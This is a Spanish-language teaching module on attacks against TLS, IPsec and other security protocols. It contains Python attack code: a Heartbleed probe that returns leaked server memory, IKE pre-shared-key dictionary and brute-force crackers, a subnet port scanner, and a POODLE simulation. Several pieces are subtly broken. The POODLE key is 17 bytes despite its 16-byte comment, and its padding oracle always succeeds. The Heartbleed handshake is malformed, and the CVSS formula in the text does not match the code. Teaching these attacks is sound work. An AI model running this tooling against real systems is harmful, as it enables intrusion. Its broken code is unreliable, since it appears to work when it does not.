


# Criptografía y Seguridad - Protocolos de seguridad en Internet

## 8.5 Ataques, herramientas de análisis.

---

### 1. Introducción a los Ataques en Protocolos de Seguridad

Los protocolos de seguridad implementan mecanismos criptográficos que pueden ser vulnerados mediante ataques sofisticados. El análisis de estos ataques es fundamental para el diseño e implementación de sistemas seguros.

### 2. Clasificación de Ataques

#### 2.1 Taxonomía de Ataques Criptográficos



#### 2.2 Modelo Matemático de Ataques

Sea $S$ un sistema criptográfico con clave $K$, mensaje $M$ y texto cifrado $C = E(K, M)$:

- **Ataque de texto cifrado conocido:** Atacante conoce $C_1, C_2, ..., C_n$
- **Ataque de texto plano conocido:** Atacante conoce $(M_1, C_1), (M_2, C_2), ..., (M_n, C_n)$
- **Ataque de texto plano elegido:** Atacante puede obtener $C_i$ para $M_i$ elegido
- **Ataque adaptativo:** Variante donde elecciones dependen de resultados anteriores

### 3. Ataques Contra Protocolos Específicos

#### 3.1 Ataques a TLS/SSL

##### 3.1.1 POODLE (Padding Oracle On Downgraded Legacy Encryption)

```python
import ssl
import socket
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad, unpad
import random

class PoodleSimulator:
    """Simulación simplificada del ataque POODLE"""

    @staticmethod
    def cifrado_aes_cbc(texto, clave, iv):
        """Cifrado AES-CBC (vulnerable a POODLE)"""
        cipher = AES.new(clave, AES.MODE_CBC, iv)
        texto_padded = pad(texto, AES.block_size)
        return cipher.encrypt(texto_padded)

    @staticmethod
    def descifrado_aes_cbc(cifrado, clave, iv):
        """Descifrado AES-CBC"""
        cipher = AES.new(clave, AES.MODE_CBC, iv)
        texto = cipher.decrypt(cifrado)
        try:
            return unpad(texto, AES.block_size)
        except ValueError:
            return texto  # Padding inválido - oracle de padding

    def simular_ataque_poodle(self):
        """Simulación del ataque POODLE"""
        # Configuración vulnerable (SSL 3.0 con CBC)
        clave = b'ClaveSecreta12345'  # 16 bytes para AES-128
        iv = b'VectorInicial123'      # 16 bytes

        # Mensaje secreto que queremos descubrir
        mensaje_secreto = b"SESSIONID=ABCD1234"

        # 1. Forzar downgrade a SSL 3.0 (simulado)
        print("1. Forzando downgrade a SSL 3.0...")

        # 2. Enviar múltiples peticiones manipulando padding
        print("2. Enviando peticiones con padding manipulado...")

        bloques_descifrados = []

        # Simulación del ataque byte por byte
        for byte_pos in range(len(mensaje_secreto)):
            for guess in range(256):  # Probar todos los valores posibles
                # Crear petición manipulada
                peticion_manipulada = b"A" * (AES.block_size - 1 - (byte_pos % AES.block_size))
                peticion_manipulada += bytes([guess])  # Byte adivinado

                # Cifrar
                cifrado = self.cifrado_aes_cbc(peticion_manipulada, clave, iv)

                # Enviar y observar respuesta (simulado)
                # Si padding es válido, aprendemos algo sobre el mensaje

                # En la simulación, verificamos si el padding sería válido
                if self._verificar_padding_oracle(cifrado, clave, iv):
                    byte_descifrado = guess ^ 0x01  # XOR con el valor de padding
                    bloques_descifrados.append(byte_descifrado)
                    print(f"Byte {byte_pos} descubierto: {chr(byte_descifrado)}")
                    break

        mensaje_reconstruido = bytes(bloques_descifrados)
        return mensaje_reconstruido

    def _verificar_padding_oracle(self, cifrado, clave, iv):
        """Oracle de padding simulado"""
        # En un ataque real, esto se detecta por diferencias en respuestas
        # del servidor (error de padding vs otros errores)
        try:
            self.descifrado_aes_cbc(cifrado, clave, iv)
            return True
        except:
            return False

# Ejecutar simulación
poodle = PoodleSimulator()
resultado = poodle.simular_ataque_poodle()
print(f"Mensaje reconstruido: {resultado}")
```

##### 3.1.2 Heartbleed (CVE-2014-0160)

```python
import socket
import struct
import ssl
from typing import Optional

class HeartbleedScanner:
    """Escáner para detectar vulnerabilidad Heartbleed"""

    def crear_paquete_heartbeat(self, payload: bytes, payload_length: int) -> bytes:
        """Crear paquete TLS Heartbeat"""
        # Tipo: 1 = heartbeat request, 2 = heartbeat response
        # Versión: TLS 1.0 = 0x0301
        # Length: longitud del payload

        tipo = struct.pack('>B', 1)  # Heartbeat Request
        version = struct.pack('>H', 0x0301)  # TLS 1.0

        # Heartbeat length (puede ser mayor que el payload real - VULNERABILIDAD)
        length = struct.pack('>H', payload_length)

        # Payload
        payload_data = payload.ljust(payload_length, b'\x00')

        return tipo + version + length + payload_data

    def probar_heartbleed(self, host: str, port: int = 443,
                         payload_length: int = 65535) -> Optional[bytes]:
        """Probar vulnerabilidad Heartbleed"""
        try:
            # Crear socket
            sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            sock.settimeout(10)

            # Envolver en SSL
            context = ssl.create_default_context()
            context.check_hostname = False
            context.verify_mode = ssl.CERT_NONE

            ssl_sock = context.wrap_socket(sock, server_hostname=host)
            ssl_sock.connect((host, port))

            # Enviar ClientHello (simplificado)
            client_hello = self._crear_client_hello_simplificado()
            ssl_sock.send(client_hello)

            # Recibir ServerHello
            respuesta = ssl_sock.recv(4096)

            # Enviar paquete Heartbeat malicioso
            payload = b"TEST"  # Payload pequeño
            heartbeat = self.crear_paquete_heartbeat(payload, payload_length)
            ssl_sock.send(heartbeat)

            # Intentar recibir respuesta
            try:
                respuesta_heartbeat = ssl_sock.recv(65535)

                if len(respuesta_heartbeat) > len(payload) + 5:  # +5 por encabezados
                    print(f"POSIBLE VULNERABILIDAD HEARTBLEED DETECTADA!")
                    print(f"Respuesta recibida: {len(respuesta_heartbeat)} bytes")

                    # Extraer datos de memoria
                    datos_filtrados = respuesta_heartbeat[5:]  # Saltar encabezado
                    return datos_filtrados
                else:
                    print("Sistema parece no ser vulnerable")

            except socket.timeout:
                print("Timeout - posiblemente no vulnerable")

            ssl_sock.close()

        except Exception as e:
            print(f"Error: {e}")

        return None

    def _crear_client_hello_simplificado(self) -> bytes:
        """Crear ClientHello simplificado para pruebas"""
        # Versión simplificada para demostración
        return bytes.fromhex(
            "16030100"  # Content Type: Handshake, Version: TLS 1.0, Length
            "010000"    # Handshake Type: Client Hello, Length
        )

# Ejemplo de uso (SOLO PARA SISTEMAS DE PRUEBA)
if __name__ == "__main__":
    scanner = HeartbleedScanner()

    # NOTA: Solo probar en sistemas propios con autorización
    # datos = scanner.probar_heartbleed("localhost", 8443)

    print("Heartbleed Scanner - Solo usar en entornos autorizados")
```

#### 3.2 Ataques a IPSec

##### 3.2.1 IKE Aggressive Mode Attack

El modo agresivo de IKE expone el hash del PSK previamente al intercambio DH.

**Vulnerabilidad:**
$$ HASH_I = \text{prf}(PSK, \text{"Initiator" } | \text{nonce}) $$
Atacante puede realizar diccionario/brute force sobre $HASH_I$.

```python
import hashlib
import hmac
from Crypto.Protocol.KDF import PBKDF2
from concurrent.futures import ThreadPoolExecutor

class IKEAttackSimulator:
    """Simulación de ataque a IKE Aggressive Mode"""

    @staticmethod
    def calcular_hash_ike(psk: str, nonce: bytes, identidad: bytes) -> bytes:
        """Calcular HASH_I según RFC 2409"""
        # PRF simplificado usando HMAC-SHA1
        prf = hmac.new(psk.encode(), nonce + identidad, hashlib.sha1)
        return prf.digest()

    def ataque_diccionario_ike(self, hash_objetivo: bytes, nonce: bytes,
                              identidad: bytes, diccionario: list) -> str:
        """Ataque de diccionario sobre IKE Aggressive Mode"""

        print(f"Iniciando ataque de diccionario...")
        print(f"Hash objetivo: {hash_objetivo.hex()}")
        print(f"Tamaño diccionario: {len(diccionario)}")

        for i, psk_candidato in enumerate(diccionario):
            hash_candidato = self.calcular_hash_ike(psk_candidato, nonce, identidad)

            if hash_candidato == hash_objetivo:
                print(f"\n¡PSK ENCONTRADA en intento {i+1}!")
                print(f"PSK: {psk_candidato}")
                return psk_candidato

            if (i + 1) % 1000 == 0:
                print(f"Probadas {i+1} claves...")

        print("\nPSK no encontrada en el diccionario")
        return None

    def ataque_fuerza_bruta(self, hash_objetivo: bytes, nonce: bytes,
                           identidad: bytes, charset: str, max_len: int):
        """Ataque de fuerza bruta"""
        import itertools

        print(f"Iniciando fuerza bruta con charset: {charset[:20]}...")

        for length in range(1, max_len + 1):
            print(f"Probando longitud {length}...")

            for combo in itertools.product(charset, repeat=length):
                psk_candidato = ''.join(combo)
                hash_candidato = self.calcular_hash_ike(psk_candidato, nonce, identidad)

                if hash_candidato == hash_objetivo:
                    return psk_candidato

        return None

# Ejemplo de simulación
if __name__ == "__main__":
    ike_attack = IKEAttackSimulator()

    # Configuración de prueba
    psk_real = "ClaveSecreta123"
    nonce = b"nonce_aleatorio_123"
    identidad = b"vpn_gateway"

    # Calcular hash objetivo
    hash_objetivo = ike_attack.calcular_hash_ike(psk_real, nonce, identidad)
    print(f"Hash objetivo calculado: {hash_objetivo.hex()}")

    # Diccionario de prueba
    diccionario_prueba = [
        "password",
        "123456",
        "admin",
        "ClaveSecreta123",  # La clave real está aquí
        "vpnpassword",
        "securekey"
    ]

    # Ejecutar ataque
    psk_encontrada = ike_attack.ataque_diccionario_ike(
        hash_objetivo, nonce, identidad, diccionario_prueba
    )
```

### 4. Herramientas de Análisis de Seguridad

#### 4.1 Framework de Análisis



#### 4.2 Implementación de Herramientas Básicas

##### 4.2.1 Escáner de Puertos en Python

```python
import socket
import concurrent.futures
import ipaddress
from typing import List, Dict
import time

class SecurityScanner:
    """Escáner de seguridad básico"""

    def __init__(self, timeout: float = 1.0):
        self.timeout = timeout
        self.open_ports = {}

    def escanear_puerto(self, host: str, port: int) -> Dict:
        """Escanear un puerto específico"""
        resultado = {
            'host': host,
            'port': port,
            'open': False,
            'service': 'unknown',
            'banner': ''
        }

        try:
            sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            sock.settimeout(self.timeout)

            conexion = sock.connect_ex((host, port))

            if conexion == 0:
                resultado['open'] = True

                # Intentar obtener banner
                try:
                    sock.send(b"GET / HTTP/1.0\r\n\r\n")
                    banner = sock.recv(1024)
                    resultado['banner'] = banner.decode('utf-8', errors='ignore')[:200]

                    # Identificar servicio común
                    resultado['service'] = self._identificar_servicio(port, banner)
                except:
                    pass

                sock.close()

        except Exception as e:
            resultado['error'] = str(e)

        return resultado

    def escanear_rango(self, host: str, puertos: List[int],
                      max_workers: int = 100) -> List[Dict]:
        """Escanear rango de puertos"""
        resultados = []

        with concurrent.futures.ThreadPoolExecutor(max_workers=max_workers) as executor:
            futures = {
                executor.submit(self.escanear_puerto, host, port): port
                for port in puertos
            }

            for future in concurrent.futures.as_completed(futures):
                try:
                    resultado = future.result()
                    resultados.append(resultado)

                    if resultado['open']:
                        print(f"[+] {host}:{resultado['port']} - {resultado['service']}")
                        if resultado['banner']:
                            print(f"    Banner: {resultado['banner'][:50]}...")
                except Exception as e:
                    print(f"Error escaneando puerto: {e}")

        return resultados

    def escanear_subred(self, red: str, puertos: List[int]) -> Dict[str, List[Dict]]:
        """Escanear toda una subred"""
        resultados = {}

        try:
            network = ipaddress.ip_network(red, strict=False)

            print(f"Escaneando red {red} ({network.num_addresses} hosts)...")

            for host in network.hosts():
                if host == network.network_address or host == network.broadcast_address:
                    continue

                host_str = str(host)
                print(f"\nEscaneando {host_str}...")

                scan_result = self.escanear_rango(host_str, puertos)
                resultados[host_str] = scan_result

        except ValueError as e:
            print(f"Error en formato de red: {e}")

        return resultados

    def _identificar_servicio(self, port: int, banner: bytes) -> str:
        """Identificar servicio basado en puerto y banner"""
        servicios_comunes = {
            21: "FTP",
            22: "SSH",
            23: "Telnet",
            25: "SMTP",
            53: "DNS",
            80: "HTTP",
            443: "HTTPS",
            3306: "MySQL",
            3389: "RDP",
            5432: "PostgreSQL",
            8080: "HTTP-Alt"
        }

        if port in servicios_comunes:
            return servicios_comunes[port]

        # Intentar identificar desde banner
        banner_str = banner.decode('utf-8', errors='ignore').upper()

        if 'APACHE' in banner_str:
            return 'Apache'
        elif 'NGINX' in banner_str:
            return 'nginx'
        elif 'IIS' in banner_str:
            return 'IIS'
        elif 'OPENSSH' in banner_str:
            return 'OpenSSH'

        return f"Unknown ({port})"

    def generar_reporte(self, resultados: List[Dict], archivo: str):
        """Generar reporte de escaneo"""
        with open(archivo, 'w') as f:
            f.write("=== REPORTE DE ESCANEO DE SEGURIDAD ===\n\n")
            f.write(f"Fecha: {time.ctime()}\n")
            f.write(f"Total objetivos: {len(resultados)}\n\n")

            for resultado in resultados:
                if resultado['open']:
                    f.write(f"[+] {resultado['host']}:{resultado['port']}\n")
                    f.write(f"    Servicio: {resultado['service']}\n")
                    if resultado['banner']:
                        f.write(f"    Banner: {resultado['banner'][:100]}\n")
                    f.write("\n")

# Ejemplo de uso
if __name__ == "__main__":
    scanner = SecurityScanner(timeout=0.5)

    # Puertos comunes para escanear
    puertos_comunes = [21, 22, 23, 25, 53, 80, 110, 143, 443, 465, 587,
                      993, 995, 3306, 3389, 5432, 8080, 8443]

    print("=== Escáner de Seguridad Básico ===\n")

    # Escanear localhost (ejemplo)
    resultados = scanner.escanear_rango("127.0.0.1", puertos_comunes[:10])

    print(f"\nResumen: {len([r for r in resultados if r['open']])} puertos abiertos")

    # Generar reporte
    scanner.generar_reporte(resultados, "reporte_escaneo.txt")
    print("Reporte generado en 'reporte_escaneo.txt'")
```

##### 4.2.2 Analizador de Paquetes TLS

```python
from scapy.all import *
from scapy.layers.tls.all import *
import dpkt
import ssl
from collections import defaultdict

class TLSAnalyzer:
    """Analizador de tráfico TLS"""

    def __init__(self, pcap_file: str):
        self.pcap_file = pcap_file
        self.sessions = defaultdict(list)
        self.vulnerabilities = []

    def analizar_pcap(self):
        """Analizar archivo pcap para tráfico TLS"""
        print(f"Analizando {self.pcap_file}...")

        try:
            packets = rdpcap(self.pcap_file)
            tls_packets = []

            for packet in packets:
                if packet.haslayer(TLS):
                    tls_packets.append(packet)

                    # Extraer información de la sesión
                    if packet.haslayer(TLSClientHello):
                        self._analizar_client_hello(packet[TLSClientHello])
                    elif packet.haslayer(TLSServerHello):
                        self._analizar_server_hello(packet[TLSServerHello])
                    elif packet.haslayer(TLSAlert):
                        self._analizar_alert(packet[TLSAlert])

            print(f"Encontrados {len(tls_packets)} paquetes TLS")

            # Buscar vulnerabilidades
            self._buscar_vulnerabilidades()

            # Generar reporte
            self._generar_reporte()

        except Exception as e:
            print(f"Error analizando pcap: {e}")

    def _analizar_client_hello(self, client_hello):
        """Analizar ClientHello"""
        info = {
            'type': 'ClientHello',
            'version': client_hello.version,
            'cipher_suites': client_hello.ciphers,
            'compression_methods': client_hello.comp,
            'extensions': client_hello.ext
        }

        # Verificar versiones vulnerables
        if client_hello.version in [0x0300, 0x0301, 0x0302]:  # SSL 3.0, TLS 1.0, 1.1
            self.vulnerabilities.append({
                'type': 'Protocolo Obsoleto',
                'severity': 'MEDIUM',
                'description': f'Uso de versión TLS vulnerable: {client_hello.version:#06x}',
                'recommendation': 'Actualizar a TLS 1.2 o superior'
            })

        self.sessions['client_hello'].append(info)

    def _analizar_server_hello(self, server_hello):
        """Analizar ServerHello"""
        info = {
            'type': 'ServerHello',
            'version': server_hello.version,
            'cipher_suite': server_hello.cipher,
            'compression_method': server_hello.compression,
            'session_id': server_hello.sid
        }

        # Verificar suites de cifrado débiles
        weak_ciphers = [
            0x0004,  # TLS_RSA_WITH_RC4_128_MD5
            0x0005,  # TLS_RSA_WITH_RC4_128_SHA
            0x002F,  # TLS_RSA_WITH_AES_128_CBC_SHA
            0x0035,  # TLS_RSA_WITH_AES_256_CBC_SHA
        ]

        if server_hello.cipher in weak_ciphers:
            self.vulnerabilities.append({
                'type': 'Cifrado Débil',
                'severity': 'HIGH',
                'description': f'Suite de cifrado débil seleccionada: {server_hello.cipher:#06x}',
                'recommendation': 'Usar cifrados AEAD modernos'
            })

        self.sessions['server_hello'].append(info)

    def _analizar_alert(self, alert):
        """Analizar alertas TLS"""
        if alert.level == 2:  # Fatal Alert
            info = {
                'type': 'Fatal Alert',
                'description': alert.description,
                'level': alert.level
            }
            self.sessions['alerts'].append(info)

    def _buscar_vulnerabilidades(self):
        """Buscar patrones de vulnerabilidades"""
        # Verificar renegociación (vulnerabilidad antigua)
        if len(self.sessions.get('client_hello', [])) > 1:
            self.vulnerabilities.append({
                'type': 'Renegociación TLS',
                'severity': 'LOW',
                'description': 'Múltiples ClientHello detectados',
                'recommendation': 'Verificar configuración de renegociación'
            })

    def _generar_reporte(self):
        """Generar reporte de análisis"""
        report_file = f"tls_analysis_{time.strftime('%Y%m%d_%H%M%S')}.txt"

        with open(report_file, 'w') as f:
            f.write("=== ANÁLISIS TLS - REPORTE DE SEGURIDAD ===\n\n")

            f.write("RESUMEN DE SESIONES:\n")
            f.write(f"ClientHello encontrados: {len(self.sessions.get('client_hello', []))}\n")
            f.write(f"ServerHello encontrados: {len(self.sessions.get('server_hello', []))}\n")
            f.write(f"Alertas fatales: {len(self.sessions.get('alerts', []))}\n\n")

            f.write("VULNERABILIDADES ENCONTRADAS:\n")
            if self.vulnerabilities:
                for vuln in self.vulnerabilities:
                    f.write(f"- [{vuln['severity']}] {vuln['type']}\n")
                    f.write(f"  Descripción: {vuln['description']}\n")
                    f.write(f"  Recomendación: {vuln['recommendation']}\n\n")
            else:
                f.write("No se encontraron vulnerabilidades críticas.\n\n")

            f.write("DETALLES TÉCNICOS:\n")
            for session_type, sessions in self.sessions.items():
                if sessions:
                    f.write(f"\n{session_type.upper()}:\n")
                    for i, session in enumerate(sessions[:3]):  # Mostrar solo primeros 3
                        f.write(f"  Sesión {i+1}:\n")
                        for key, value in session.items():
                            f.write(f"    {key}: {value}\n")

        print(f"Reporte generado: {report_file}")

# Clase alternativa usando dpkt para análisis TLS
class TLSFlowAnalyzer:
    """Analizador de flujos TLS usando dpkt"""

    def __init__(self):
        self.flows = defaultdict(lambda: {
            'client_hello': None,
            'server_hello': None,
            'certs': [],
            'alerts': []
        })

    def analyze_tls_handshake(self, pcap_file):
        """Analizar handshake TLS desde pcap"""
        with open(pcap_file, 'rb') as f:
            pcap = dpkt.pcap.Reader(f)

            for timestamp, buf in pcap:
                try:
                    eth = dpkt.ethernet.Ethernet(buf)

                    if isinstance(eth.data, dpkt.ip.IP):
                        ip = eth.data

                        if isinstance(ip.data, dpkt.tcp.TCP):
                            tcp = ip.data
                            sport = tcp.sport
                            dport = tcp.dport

                            # Identificar flujo
                            flow_key = (ip.src, sport, ip.dst, dport)

                            # Intentar parsear como TLS
                            if tcp.data:
                                try:
                                    tls = dpkt.ssl.TLS(tcp.data)
                                    self._process_tls_record(tls, flow_key)
                                except:
                                    pass
                except:
                    continue

        return self.flows

    def _process_tls_record(self, tls, flow_key):
        """Procesar registro TLS"""
        for record in tls.records:
            if record.type == 22:  # Handshake
                for handshake in record.handshakes:
                    if handshake.type == 1:  # ClientHello
                        self.flows[flow_key]['client_hello'] = handshake
                    elif handshake.type == 2:  # ServerHello
                        self.flows[flow_key]['server_hello'] = handshake
                    elif handshake.type == 11:  # Certificate
                        self.flows[flow_key]['certs'].append(handshake)
                    elif handshake.type == 21:  # Alert
                        self.flows[flow_key]['alerts'].append(handshake)
```

### 5. Análisis Matemático de Ataques

#### 5.1 Análisis de Complejidad de Ataques

##### 5.1.1 Ataque de Fuerza Bruta

Para una clave de $n$ bits:

$$ \text{Esfuerzo esperado} = 2^{n-1} \text{ intentos} $$

$$ \text{Tiempo estimado} = \frac{2^{n-1}}{R} \text{ segundos} $$

donde $R$ es la tasa de intentos por segundo.

##### 5.1.2 Ataque de Cumpleaños (Birthday Attack)

Para una función hash de $m$ bits:

$$ \text{Probabilidad de colisión} \approx 1 - e^{-k(k-1)/(2^{m+1})} $$

donde $k$ es el número de mensajes.

Para probabilidad $p$ de encontrar colisión:

$$ k \approx \sqrt{2 \cdot 2^m \cdot \ln\left(\frac{1}{1-p}\right)} $$

##### 5.1.3 Ataque de Tiempo (Timing Attack)

Basado en diferencias en tiempo de ejecución:

$$ \Delta t = t_{\text{operación correcta}} - t_{\text{operación incorrecta}} $$

Número de muestras necesarias:

$$ N \approx \frac{\sigma^2}{\Delta t^2} \cdot \text{constante} $$

donde $\sigma$ es la desviación estándar del ruido.

```python
import numpy as np
import time
from Crypto.PublicKey import RSA
from Crypto.Cipher import PKCS1_OAEP
import matplotlib.pyplot as plt

class TimingAttackAnalyzer:
    """Analizador de ataques de tiempo"""

    @staticmethod
    def simular_ataque_tiempo_rsa():
        """Simular vulnerabilidad a timing attack en RSA"""
        # Generar clave RSA
        key = RSA.generate(2048)

        # Datos para cifrar
        mensajes = [b"A" * i for i in range(10, 100, 10)]

        tiempos = []

        for mensaje in mensajes:
            # Medir tiempo de cifrado
            cipher = PKCS1_OAEP.new(key)

            tiempos_muestra = []
            for _ in range(100):  # Múltiples mediciones
                inicio = time.perf_counter_ns()
                cifrado = cipher.encrypt(mensaje)
                fin = time.perf_counter_ns()
                tiempos_muestra.append(fin - inicio)

            tiempos.append({
                'tamaño': len(mensaje),
                'promedio': np.mean(tiempos_muestra),
                'std': np.std(tiempos_muestra),
                'min': np.min(tiempos_muestra),
                'max': np.max(tiempos_muestra)
            })

        return tiempos

    @staticmethod
    def analizar_correlacion_tiempo(tiempos):
        """Analizar correlación entre tamaño y tiempo"""
        tamanos = [t['tamaño'] for t in tiempos]
        promedios = [t['promedio'] for t in tiempos]

        # Calcular correlación
        correlacion = np.corrcoef(tamanos, promedios)[0, 1]

        # Regresión lineal
        coeficientes = np.polyfit(tamanos, promedios, 1)
        pendiente = coeficientes[0]

        return {
            'correlacion': correlacion,
            'pendiente': pendiente,
            'es_vulnerable': abs(correlacion) > 0.7  # Umbral arbitrario
        }

    @staticmethod
    def graficar_resultados(tiempos):
        """Graficar resultados del análisis"""
        fig, axes = plt.subplots(1, 2, figsize=(12, 5))

        # Gráfico 1: Tiempo vs Tamaño
        tamanos = [t['tamaño'] for t in tiempos]
        promedios = [t['promedio'] for t in tiempos]
        errores = [t['std'] for t in tiempos]

        axes[0].errorbar(tamanos, promedios, yerr=errores, fmt='o-', capsize=5)
        axes[0].set_xlabel('Tamaño del mensaje (bytes)')
        axes[0].set_ylabel('Tiempo de cifrado (ns)')
        axes[0].set_title('Timing Attack Analysis')
        axes[0].grid(True, alpha=0.3)

        # Gráfico 2: Distribución para un tamaño específico
        tiempos_muestra = np.random.normal(
            tiempos[2]['promedio'],
            tiempos[2]['std'],
            1000
        )

        axes[1].hist(tiempos_muestra, bins=30, alpha=0.7)
        axes[1].axvline(tiempos[2]['promedio'], color='r', linestyle='--', label='Promedio')
        axes[1].set_xlabel('Tiempo (ns)')
        axes[1].set_ylabel('Frecuencia')
        axes[1].set_title('Distribución de Tiempos (ejemplo)')
        axes[1].legend()
        axes[1].grid(True, alpha=0.3)

        plt.tight_layout()
        plt.savefig('timing_attack_analysis.png', dpi=150)
        plt.show()

# Ejecutar análisis
if __name__ == "__main__":
    analyzer = TimingAttackAnalyzer()

    print("Simulando timing attack en RSA...")
    tiempos = analyzer.simular_ataque_tiempo_rsa()

    for t in tiempos:
        print(f"Tamaño {t['tamaño']} bytes: {t['promedio']:.0f} ± {t['std']:.0f} ns")

    analisis = analyzer.analizar_correlacion_tiempo(tiempos)
    print(f"\nCorrelación: {analisis['correlacion']:.3f}")
    print(f"Pendiente: {analisis['pendiente']:.3f} ns/byte")
    print(f"¿Vulnerable?: {'SÍ' if analisis['es_vulnerable'] else 'NO'}")

    analyzer.graficar_resultados(tiempos)
```

### 6. Framework de Evaluación de Vulnerabilidades

#### 6.1 CVSS (Common Vulnerability Scoring System)

$$ \text{CVSS Base Score} = \text{roundup}(\text{Impact} + \text{Exploitability}) $$

donde:

$$ \text{Impact} = 10.41 \times (1 - (1 - C) \times (1 - I) \times (1 - A)) $$

$$ \text{Exploitability} = 8.22 \times AV \times AC \times PR \times UI $$

```python
class CVSSCalculator:
    """Calculadora de puntuación CVSS v3.1"""

    # Métricas Base
    METRICAS = {
        'AV': {'N': 0.85, 'A': 0.62, 'L': 0.55, 'P': 0.2},
        'AC': {'L': 0.77, 'H': 0.44},
        'PR': {'N': 0.85, 'L': {'C': 0.68, 'U': 0.62}, 'H': {'C': 0.5, 'U': 0.27}},
        'UI': {'N': 0.85, 'R': 0.62},
        'S': {'U': 6.42, 'C': 7.52},
        'C': {'N': 0, 'L': 0.22, 'H': 0.56},
        'I': {'N': 0, 'L': 0.22, 'H': 0.56},
        'A': {'N': 0, 'L': 0.22, 'H': 0.56}
    }

    @classmethod
    def calcular_cvss(cls, metricas: dict) -> dict:
        """Calcular puntuación CVSS"""

        # Extraer valores
        AV = cls.METRICAS['AV'][metricas['AV']]
        AC = cls.METRICAS['AC'][metricas['AC']]

        # PR depende de Scope
        if metricas['PR'] == 'N':
            PR = cls.METRICAS['PR']['N']
        else:
            PR = cls.METRICAS['PR'][metricas['PR']][metricas['S']]

        UI = cls.METRICAS['UI'][metricas['UI']]
        S = cls.METRICAS['S'][metricas['S']]
        C = cls.METRICAS['C'][metricas['C']]
        I = cls.METRICAS['I'][metricas['I']]
        A = cls.METRICAS['A'][metricas['A']]

        # Calcular Exploitability
        Exploitability = 8.22 * AV * AC * PR * UI

        # Calcular Impact
        if metricas['S'] == 'U':
            Impact = 6.42 * (1 - (1 - C) * (1 - I) * (1 - A))
        else:  # Changed
            Impact = 7.52 * (1 - (1 - C) * (1 - I) * (1 - A)) - 1.5

        # Asegurar que Impact no sea negativo
        Impact = max(0, Impact)

        # Calcular Base Score
        if Impact <= 0:
            BaseScore = 0
        else:
            if metricas['S'] == 'U':
                BaseScore = min(Impact + Exploitability, 10)
            else:
                BaseScore = min(1.08 * (Impact + Exploitability), 10)

        # Redondear
        BaseScore = round(BaseScore, 1)

        # Determinar severidad
        if BaseScore == 0:
            Severidad = 'None'
        elif BaseScore < 4.0:
            Severidad = 'Low'
        elif BaseScore < 7.0:
            Severidad = 'Medium'
        elif BaseScore < 9.0:
            Severidad = 'High'
        else:
            Severidad = 'Critical'

        return {
            'BaseScore': BaseScore,
            'Impact': round(Impact, 1),
            'Exploitability': round(Exploitability, 1),
            'Severidad': Severidad,
            'Vector': cls._generar_vector(metricas)
        }

    @classmethod
    def _generar_vector(cls, metricas: dict) -> str:
        """Generar string de vector CVSS"""
        vector = "CVSS:3.1/"
        for clave, valor in metricas.items():
            vector += f"{clave}:{valor}/"
        return vector[:-1]  # Eliminar última barra

# Ejemplo de uso
metricas_ejemplo = {
    'AV': 'N',  # Network
    'AC': 'L',  # Low
    'PR': 'N',  # None
    'UI': 'N',  # None
    'S': 'U',   # Unchanged
    'C': 'H',   # High
    'I': 'H',   # High
    'A': 'H'    # High
}

calculadora = CVSSCalculator()
resultado = calculadora.calcular_cvss(metricas_ejemplo)
print("=== EVALUACIÓN CVSS ===")
print(f"Puntuación Base: {resultado['BaseScore']}")
print(f"Impacto: {resultado['Impact']}")
print(f"Explotabilidad: {resultado['Exploitability']}")
print(f"Severidad: {resultado['Severidad']}")
print(f"Vector: {resultado['Vector']}")
```

### 7. Ejercicios Propuestos

#### Ejercicio 1: Análisis de Ataque MITM

Implemente un analizador que detecte patrones de ataque MITM en tráfico de red:

1. Capture tráfico ARP para detectar spoofing
2. Analice certificados SSL/TLS en busca de anomalías
3. Detecte discrepancia en tiempos de handshake
4. Implemente detección de SSL stripping

**Fórmula para detección de anomalías en certificados:**

$$ \text{Score} = w_1 \cdot \text{validez} + w_2 \cdot \text{confianza} + w_3 \cdot \text{tiempo\\\_verificación} $$

#### Ejercicio 2: Herramienta de Análisis de Cifrados

Desarrolle una herramienta que:

1. Identifique suites de cifrado usadas en tráfico TLS
2. Evalúe fortaleza según mejores prácticas (NIST, BSI)
3. Detecte cifrados obsoletos (RC4, 3DES, etc.)
4. Genere recomendaciones de mejora

**Cálculo de fortaleza:**

$$ \text{Fortaleza} = \frac{\sum_{i=1}^{n} w_i \cdot s_i}{\sum_{i=1}^{n} w_i} $$
donde $s_i$ es puntuación del cifrado $i$ y $w_i$ su peso.

#### Ejercicio 3: Simulador de Ataques

Cree un simulador educativo que:

1. Demuestre ataques a protocolos específicos (POODLE, Heartbleed, etc.)
2. Muestre el impacto en seguridad
3. Incluya medidas de mitigación
4. Proporcione ejercicios prácticos de defensa

#### Ejercicio 4: Análisis Forense de Incidentes

Desarrolle un framework para:

1. Captura y preservación de evidencia
2. Análisis de logs y tráfico de red
3. Correlación de eventos
4. Generación de línea de tiempo del ataque
5. Creación de reporte forense

### 8. Referencias Bibliográficas

#### Bibliografía Básica

1. **Stallings, William** (2010). _Cryptography and Network Security: Principles and Practice_, 5a Ed., Prentice Hall.
   - Capítulo 21: "Network Security"
   - Capítulo 22: "System Security"
   - Apéndice B: "Projects for Teaching Network Security"

2. **Forouzan, Behrouz A.** (2008). _Cryptography and Network Security_, McGraw Hill.
   - Capítulo 15: "Security Attacks"
   - Capítulo 32: "System Security"
   - Capítulo 33: "Network Security"

3. **Pfleeger, Charles P. y Shari L. Pfleeger** (2006). _Security in Computing_, 4a Ed., Prentice Hall.
   - Capítulo 3: "Program Security"
   - Capítulo 6: "Database Security"
   - Capítulo 7: "Network Security"

#### Bibliografía Complementaria

